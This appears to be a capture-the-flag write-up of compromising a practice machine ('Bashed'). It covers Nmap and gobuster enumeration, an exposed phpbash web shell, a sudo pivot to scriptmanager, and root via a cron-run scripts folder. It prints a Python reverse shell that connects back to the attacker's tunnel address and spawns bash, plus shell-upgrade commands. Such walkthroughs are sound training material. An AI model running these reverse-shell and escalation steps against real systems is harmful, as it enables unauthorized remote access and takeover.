## Nmap

As always. I'm gonna run the Nmap scan. Here is the result of the scan.

### result

```sql
# Nmap 7.92 scan initiated Sat Feb 26 01:50:32 2022 as: nmap -sC -sV -oN nmap/bashed 10.10.10.68
Nmap scan report for 10.10.10.68
Host is up (0.054s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Feb 26 01:50:44 2022 -- 1 IP address (1 host up) scanned in 12.17 seconds
```

port `80/HTTP` is the only one open.

### Http

Let's take a look at the website. 


Turns out, the `phpbash` is a web shell. Well, it is an open-source project and I found the GitHub link on the site itself.

```bash
https://github.com/Arrexel/phpbash
```

On the GitHub page. The `phpbash` location looks like at the uploads directory. However, when I went to the uploads directory it's nothing there.



### Gobuster

So, I'm gonna run the `gobuster` to search all hidden directories. It found a bunch of directories but the `/dev` really caught my eye.



### /dev

Let's take a look at the `/dev` directory. Wow! found it. Now, I'm just clicking the `phpbash.php` and I've got the web shell as the `www-data` user. 





## Reverse Shell

Let's try to get the proper reverse shell. I have already tried a bunch of things to gain the reverse shell. However, the `base64` method seems to be working.

So, the first thing is I'm gonna encoded this `bash reverse shell` into `base64`



Then, I'm gonna put it into the input of `phpbash`. Down below; is a syntax should be.  Make sure to set up an `nc` listener first. 





### Upgrade shell using python

YES! I got the shell. Let's upgrade this shell into a proper shell. First, let's import called `/bin/bash` using python with `pty module`. Then, export the terminal to have the clear screen and press `Ctrl + Z` to put it, into the background. Last, type the `stty raw -echo; fg` and press `Enter` 2 times, and there you go!

```bash
-> python3 -c 'import pty;pty.spawn("/bin/bash")'
-> export TERM=xterm
Ctrl + Z 
-> stty raw -echo; fg
```

### User scriptmanager

The first thing a love to do when get access to the machine. I love to check the sudo permission. Let's check it with `sudo -l`. Shockingly, I can run the `sudo` with the `www-data` user. 



Looks like, I can run any command with the `scriptmanager` user without authentication. Well, let's change into that user with this syntax;

```bash
sudo -u scriptmanager bash
```



### /scripts

This is caught by surprise. I found the `/scripts` directory located in the base `/`. Luckily, I already become the `scriptmanager`. Let's take a peek into the particular directory.



So, the directory content 2 files are called `test.py` and `test.txt`. However, the test.txt is owned by the `root` user. After endless investigation ;) Looks like any python file in here is gonna run by root. Like a `cronjob`.



## Root Shell

What we know. Any python file in that directory got to execute. So, I'm gonna make a `python file` that contains `reverse shell`. After, all set up just wait for a minute, and BOOM! <br>
_<font color="yellow">make sure to setup nc listener first</font>_

```python
# Python Reverse Shell
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("TUN0",PORT))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty; pty.spawn("/bin/bash")
```


